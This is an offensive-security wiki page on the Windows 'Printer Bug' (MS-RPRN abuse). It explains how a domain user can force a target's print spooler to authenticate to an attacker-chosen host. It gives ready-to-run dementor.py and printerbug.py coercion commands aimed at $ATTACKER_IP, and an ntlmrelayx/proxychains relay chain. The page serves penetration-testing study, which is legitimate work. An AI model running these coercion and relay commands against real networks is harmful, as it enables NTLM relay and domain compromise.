 # Printer Bug \(MS-RPRN abuse\)

## Theory

MS-RPRN is Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server. An attacker controlling a domain user/computer can, with an RPC call, trigger the spooler service of a target running it and make it authenticate to a target of the attacker's choosing. This flaw is a "won't fix" and enabled by default on all Windows environments.

{% hint style="info" %}
The attacker needs a foothold on the domain \(i.e. compromised account\) for this attack to work since the coercition is operated through an RPC call in the SMB `\pipe\spoolss` named pipe through the `IPC$` share.
{% endhint %}

## Practice

Remotely checking if the spooler is available can be done with [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) \(Powershell\) or with [rpcdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py) \(Python\).

The spooler service can be triggered with [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) \(Python\), [dementor](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) \(Python\), the adapted original .NET code \([here](https://github.com/leechristensen/SpoolSample)\).

This trigger leads to an outgoing traffic using SMB.

{% tabs %}
{% tab title="dementor" %}
Trigger the spooler service

```bash
dementor.py -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD $ATTACKER_IP $TARGET
```
{% endtab %}

{% tab title="printerbug" %}
Trigger the spooler service

```bash
printerbug.py 'DOMAIN'/'USER':'PASSWORD'@'TARGET' 'ATTACKER HOST'
```
{% endtab %}

{% tab title="rpcdump" %}
Check if the spooler service is available

```bash
rpcdump.py $TARGET | grep -A 6 MS-RPRN
```
{% endtab %}

{% tab title="SpoolerScanner" %}
Check if the spooler service is available

```text

```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../abusing-lm-and-ntlm/relay.md) and trigger the spooler service of a target via a SOCKS proxy
{% endhint %}

```bash
ntlmrelayx.py -t smb://$TARGET -socks
proxychains dementor.py -d $DOMAIN -u $DOMAIN_USER $ATTACKER_IP $TARGET
```

## Resources

{% embed url="https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/" %}

{% embed url="https://www.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory/41" %}

